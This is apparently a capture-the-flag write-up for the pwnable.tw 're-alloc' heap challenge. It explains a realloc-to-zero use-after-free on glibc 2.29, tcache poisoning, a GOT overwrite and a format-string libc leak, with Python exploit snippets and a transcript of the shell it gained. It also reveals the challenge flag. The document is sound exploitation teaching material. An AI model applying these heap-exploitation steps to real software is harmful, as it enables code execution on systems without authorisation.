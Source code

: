 # re-alloc

UAF into tcache poisoning, Format String, GOT Overwrite

## checksec

```python
[*] '/mnt/d/CTFs/pwnable-tw/re-alloc/re-alloc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

We can overwrite the GOT with PLT addresses without a leak. 

## Overview of Binary & Vulnerability

The binary allows us to alloc, realloc (to change the size of) and free chunks. The main issue is that in the function to realloc chunks, `reallocate`, 

1. there is no check preventing us from realloc-ing a chunk of size 0, and
2. as we would expect for a realloc for a positive size, the pointer to the realloc-ed chunk is preserved. 

Now, the [man page for realloc](https://linux.die.net/man/3/realloc) states that

> The realloc() function changes the size of the memory block pointed to by ptr to size bytes. The contents will be unchanged in the range from the start of the region up to the minimum of the old and new sizes. If the new size is larger than the old size, the added memory will not be initialized. If ptr is NULL, then the call is equivalent to malloc(size), for all values of size; **if size is equal to zero, and ptr is not NULL, then the call is equivalent to free(ptr)**. Unless ptr is NULL, it must have been returned by an earlier call to malloc(), calloc() or realloc(). If the area pointed to was moved, a free(ptr) is done.

which means that if we can call `realloc` with size 0 twice on the same pointer (with some caveats that will be discussed later), we'd essentially have achieved double-free into the tcache! 

We will see later, however, that due to tcache double-free protections, we end up just using UAF (which would've been required to bypass the tcache double-freeing protections anyways) to perform tcache poisoning, and thus obtain arb-write capability. 

Looking into a short snipplet of the decompiled code from that function, and knowing that `realloc` with size 0 i.e. `free` returns nothing (i.e. rax will be 0), 

```c
0040155c              int64_t rax_10 = realloc(*(uint64_t*)((rax_2 << 3) + &heap), bytes);
0040156a              if (rax_10 != 0)
0040156a              {
00401591                  *(uint64_t*)((rax_2 << 3) + &heap) = rax_10;
004015a1                  printf("Data:");
004015c8                  rax_7 = read_input(*(uint64_t*)((rax_2 << 3) + &heap), bytes);
0040156a              }
0040156a              else
0040156a              {
00401573                  rax_7 = puts("alloc error");
0040156a              }
```

we see that a free is achieved without deleting the pointer to the chunk. This creates the basic conditions for us to investigate both double-freeing and UAF possibilities. 

> NOTE: There is an additional vulnerability in the binary where, in the function to alloc free chunks, there is an off-by-null - however, this is not required for this challenge. I think that this vulnerability will probably need to be used for the re-alloc revenge challenge. 

## Attempt 1: Double Freeing into the tcache

### What are tcache keys?

In this version of glibc (2.29), the tcache double-freeing protection isn't something that is overcome as easily as freeing another chunk into the tcache before double-freeing the original chunk. Instead, each `tcache_entry` struct (that occupies the user data space in the chunk once it is freed into the tcache) has an additional data field `key` that is a pointer to the thread's `tcache_perthread_struct`. 

```
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```

If a chunk that is to be freed into the tcache has its `key` field equal to the addr of the thread's `tcache_perthread_struct`, then `free` will check through the entirety of that tcache bin to see if any of the chunks in the bin have the same address that the one that is about to be freed. This explanation is probably hard to visualize - you can read the source code for this functionality [here](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c#L4189). 

Also, a more detailed explanation of this protection can be found [here](https://ir0nstone.gitbook.io/notes/binexp/heap/tcache-keys). 

As mentioned on that page, we can bypass this protection overwrite by overwriting the `key` field by way of a UAF primitive. However, I soon realized that the UAF allows us to poison the tcache directly...

## Using the UAF primitive to tcache-poison

### Where's our UAF primitive?

Our UAF primitive comes from, after freeing and maintaining a pointer to the freed chunk through a realloc of 0 bytes, realloc-ing the same chunk but with the its size (i.e. so a realloc with no size change). In the function provided by binary (the decompiled code was shown in the [Overview of Binary & Vulnerability](#overview-of-binary--vulnerability) section), after the realloc, we are allowed to write data to the chunk. 

Since a realloc for the same size returns that very same chunk, we essentially have write capability into a freed chunk!

Here's some Python that illustrates this

```python
# We first free a chunk into the tcache and use the UAF prmitive to directly overwrite its next ptr
# The size of the chunks are arbitrary but should be the same throughout so that the same tcache bin is accessed
alloc(0, 0x38, b'A'*0x38)
realloc(0, 0, b'') # Free while retaining pointer    
realloc(0, 0x38, p64(exe.got.atoll) + b'A'*0x30) # Use the UAF primitive to overwrite the next ptr in the freed chunk
```

Notably, we aren't going to need to double-free (and deal with bypassing protections) anymore to write into a freed chunk - this UAF primitive does it for us. 

### Achieving arb-write

Based on what was set up in the tcache above, if we alloc a chunk of user data size 0x38 twice, we'd have arb-write to that memory location. We only have 1 free element in the chunk pointer array (its symbol in the binary is `heap`) in the bss, so we need to do a bit of finnicking to get this down

```python
# We still have the tcache entry in the tcache_perthread_struct, so we alloc/realloc this away to the other index of the chunk pointer array
# This will force the addr we want to write to (which was the next ptr) to be placed in the tcache_perthread_struct for the next alloc
alloc(1, 0x38, b'A'*0x38)
# Now, we cannot easily alloc again because the function (in the binary) will fail since both entries in the chunk pointer array are non-null
# Thus, we will need to perform the following to get arb-write: 
# 1. Realloc the chunk to a smaller size to split it into two chunks, where one is used and one is freed
# 2. Free this smaller chunk (so that it doesn't go into the tcache bin of our orginal size)
# 3. Alloc a chunk of our original size
# This will allocate a new chunk of the original size so that arb-write is achieved
realloc(1, 0x10, b'A'*0x10)
free(1)
alloc(1, 0x38, p64(exe.plt.printf))
```

This would have written the PLT entry of printf of the program into the GOT entry of atoll. 

## Concept of Exploit

Given our arb-write capability, as well as the internals of the binary, the concept of our exploit is to
1. Overwrite the GOT entry of atoll with the PLT entry of printf
2. Use a format string vuln to leak the libc base addr
3. Overwrite the GOT entry of atoll with the address of libc system

## Tweaks to our arb-write Implementation

Given the concept above, we need to make a few tweaks to our arb-write implementation. 

### No. of arb-writes required through tcache poisoning

Since the format string vulnerability writes into a buffer that is only 16 bytes big, it is not possible to even attempt a byte-by-byte write of integer granularity since, if the no. of chars is a 3-digit base 10 number, we will exceed the buffer size

```python
# Length 17 payload that would write c8 00 00 00 into addr
b'%200c%9$n' + p64(addr)
```

Thus, we actually need 2 tcache poisoning-enabled arb-writes. However, if we perform one arb-write, we corrupt one entry of the array (in bss) of entries that point to chunks on the heap with the addr we wrote to. Recall that we needed 2 indexes (and only have 2) to perform the arb-write. 

Thankfully, we only corrupt an entry in the array when actually allocating the chunk for the arb-write. To avoid locking ourselves out of a second arb-write, we can setup both arb-writes before actually performing any arb-writes.

### Setting up both arb-writes before performing them

In [Achieving arb-write](#achieving-arb-write), we poisoned the tcache bin for chunks of size 0x40 to perform the arb-write. 

Now, instead of immediately actualizing the arb-write by allocating, we only set-up the relevant tcache bin, before doing some cleanup so that the entry at index 0 of the `heap` bss array is zeroed so that the setup can be repeated (but now with a different chunk size so that a different tcache bin is targeted). 

```python
# From the "Achieving arb-write" section, without the alloc
realloc(1, 0x10, b'A'*0x10)
free(1)

# Cleanup so that index 0 can be allocated to again, and increment num_writes_setup
realloc(0, 0x10, b'A'*0x10) # This actually overwrites the tcache key so that libc does not detect a double-free
free(0)
```

We just need to make sure that we use a different tcache bin for each arb-write setup. I personally just used the chunk sizes 0x40 and 0x50. 

The rest of the implementation can be found in the [solve script](./solve.py). 

## Flag

```bash
[+] Opening connection to chall.pwnable.tw on port 10106: Done
[*] hex(libc.address)='0x7f6a87925000'
[*] Switching to interactive mode
$ cd home
$ ls
re-alloc
$ cd re-alloc
$ ls
flag
re-alloc
run.sh
$ cat flag
FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
```